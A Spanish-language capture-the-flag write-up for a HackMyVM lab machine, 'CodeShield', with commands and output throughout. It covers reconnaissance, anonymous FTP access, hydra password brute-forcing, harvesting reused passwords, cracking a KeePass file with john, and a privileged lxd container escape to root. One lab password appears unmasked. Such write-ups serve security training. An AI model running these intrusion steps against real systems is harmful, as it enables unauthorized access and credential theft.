




**Autor**: eMVee  \\
**Dificultad**: Fácil



## NOTA

En el write-up solo explico los pasos necesarios para la resolución de la máquina.

## Análisis

Como siempre, lo primero es realizar un reconocimiento de los puertos disponibles con **nmap**.

```
h3rshel@kali:~/Desktop$ sudo nmap -p- 192.168.1.123  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 15:21 CEST
Nmap scan report for codeshield.hmv (192.168.1.123)
Host is up (0.00013s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
143/tcp   open  imap
443/tcp   open  https
465/tcp   open  smtps
587/tcp   open  submission
993/tcp   open  imaps
995/tcp   open  pop3s
2222/tcp  open  EtherNetIP-1
3389/tcp  open  ms-wbt-server
22222/tcp open  easyengine
```

Entre estos hay que destacar:
- 21: FTP
- 80: Web
- 22222: SSH. Tanto el puerto 22 como el 2222 no sirven, hay que utilizar el 22222 para conectarse por ssh.

### FTP

Analizo con más detalle el puerto 21.

```
h3rshel@kali:~/Desktop$ sudo nmap -p21 -A 192.168.1.123
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 15:22 CEST
Nmap scan report for codeshield.hmv (192.168.1.123)
Host is up (0.00089s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 1002     1002      2349914 Aug 30 10:33 CodeShield_pitch_deck.pdf
| -rw-rw-r--    1 1003     1003        67520 Aug 28 19:45 Information_Security_Policy.pdf
|_-rw-rw-r--    1 1004     1004       226435 Aug 28 18:29 The_2023_weak_password_report.pdf
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
```

Tengo permiso para acceder al servicio FTP con las credenciales **anonymous:anonymous**.

```
h3rshel@kali:~/Desktop$ ftp 192.168.1.123
Connected to 192.168.1.123.
220 (vsFTPd 3.0.5)
Name (192.168.1.123:h3rshel): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||19607|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002      2349914 Aug 30 10:33 CodeShield_pitch_deck.pdf
-rw-rw-r--    1 1003     1003        67520 Aug 28 19:45 Information_Security_Policy.pdf
-rw-rw-r--    1 1004     1004       226435 Aug 28 18:29 The_2023_weak_password_report.pdf
226 Directory send OK.
ftp> get The_2023_weak_password_report.pdf
```

Existen 3 archivos pdf que puedo descargar. A lo largo de **The_2023_weak_password_report.pdf** se muestran un montón de contraseñas débiles las cuales apunto en un fichero para usarlas mas adelante.



### Web

Navegando en la página web encuentro una lista con todos los empleados de **codeshield**, me los apunto para hacer un ataque de fuerza bruta mas adelante.


**IMPORTANTE** no olvidarse de Kevin, el interno.



Y todos los usuarios los guardo en un fichero.

```
h3rshel@kali:~/Desktop$ cat users 
angelina johnson
john doe
bob watson
jennifer cruise
kevin valdez
jessica carlson
mohammed mansour
xian tan
annabella cocci
thomas mitchell
patrick early
```

Ahora con la herramienta **[username-anarchy](https://github.com/urbanadventurer/username-anarchy)** genero una lista más grande con posibles usuarios.

```
h3rshel@kali:~/Desktop$ ./tools/gists/username-anarchy/username-anarchy --input-file ./users > anarchy_users
h3rshel@kali:~/Desktop$ cat anarchy_users           
angelina
angelinajohnson
angelina.johnson
angejohn
angelinaj
a.johnson
ajohnson
jangelina
j.angelina
johnsona
johnson
johnson.a
johnson.angelina
aj
john
johndoe
john.doe
johnd
[...]
```

## Explotación

Con la lista de usuarios generada y las constraseñas del PDF, utilizo **hydra** para realizar un ataque de fuerza bruta.

```
h3rshel@kali:~/Desktop$ hydra -L anarchy_users -P pass 192.168.1.123 ftp -t 48 -v
[...]
[STATUS] 3336.50 tries/min, 6673 tries in 00:02h, 10377 to do in 00:04h, 16 active
[STATUS] 1807.50 tries/min, 7230 tries in 00:04h, 9820 to do in 00:06h, 16 active
[21][ftp] host: 192.168.1.123   login: valdezk   password: *************
```

Bingo!! Ha encontrado una contraseña válida.

## Escalado de privilegios

### valdezk

Al ejecutar **grep** en el directorio **home** en busca de contraseñas, aparece una.

```
valdezk@codeshield:~$ grep -ri password
[...]
.thunderbird/fx2h7mhy.default-release/ImapMail/mail.codeshield.hmv/Trash:Password: D@t*********
[...]
```

Vuelvo a ejecutar **hydra** desde mi máquina kali para encontrar el dueño de esa contraseña.

```
h3rshel@kali:~/Desktop$ hydra -L anarchy_users -p D@taWh1sperer! 192.168.1.123 ftp -t 48 -v
[DATA] attacking ftp://192.168.1.123:21/
[21][ftp] host: 192.168.1.123   login: mitchellt   password: D@t*********
```

### Mitchellt

Me conecto mediante **ssh** como el usuario **mitchellt** y al revisar el historial encuentro otra contraseña.

```
h3rshel@kali:~/Desktop$ ssh mitchellt@192.168.1.123 -p 22222
[...]
mitchellt@codeshield:~$
mitchellt@codeshield:~$ history
    1  echo '****************'| su - earlyp -c "cp -r /home/earlyp/Development/mining ."
    2  echo '****************'| su - earlyp -c "cp -r /home/earlyp/Development/mining /tmp"
    3  cp -r /tmp/mining .
    4  ls
    5  cd mining/
    6  ls
    7  exit
    8  history
```

Así que cambiar de usuario es simple.

```
mitchellt@codeshield:~$ su earlyp
Password: 
earlyp@codeshield:/home/mitchellt$
```

### Earlyp

Para conseguir permisos de usuario **root** desde este usuario hay dos opciones.

#### Alternativa 1

Me dirijo al directorio **~/Documents** donde encuentro un archivo **kdbx** con contraseña.

```
earlyp@codeshield:~$ cd Documents/
earlyp@codeshield:~/Documents$ ls
Passwords.kdbx
```

Lo llevo a mi máquina Kali donde utilizo **john** para crackearlo. He utilizado las mismas contraseñas que antes (obtenidas del pdf).

```
h3rshel@kali:~/Desktop$ keepass2john Passwords.kdbx > hash
h3rshel@kali:~/Desktop$ john hash --wordlist=pass               
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 3225806 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m**********     (pass)
```

Una vez conocida la contraeña, puedo abrir el archivo online y ver que contenía la contraseña del usuario root.


#### Alternativa 2

Siendo el usuario **earlyp**, puedo ver que pertenezco al grupo **lxd**.

```
earlyp@codeshield:~$ id
uid=1000(earlyp) gid=1000(earlyp) groups=1000(earlyp),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd)
```

En [Hacktricks lxc/lxd](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#with-internet) se puede acceder a todo el sistema como usuario **root**.

Antes de nada es necesario ejecutar el siguiente comando. Con todos los valores por defecto funciona bien.
```
earlyp@codeshield:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (cephobject, dir, lvm, zfs, btrfs, ceph) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GiB of the new loop device (1GiB minimum) [default=9GiB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]: 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
earlyp@codeshield:~$
```

Ahora sí, sigo los pasos descritos en **Hacktricks**.

```
earlyp@codeshield:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
earlyp@codeshield:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to test
earlyp@codeshield:~$ lxc start test
earlyp@codeshield:~$ lxc exec test bash
root@test:~# cd /mnt/root/root/
root@test:/mnt/root/root# ls
cowrie  root.txt  snap
root@test:/mnt/root/root#
```

Como se puede ver, tengo acceso a **root.txt**. Si mantener el acceso, bastaría con añadir un par de claves al directorio **.ssh**.

Muchas gracias a **eMVee** por esta máquina.

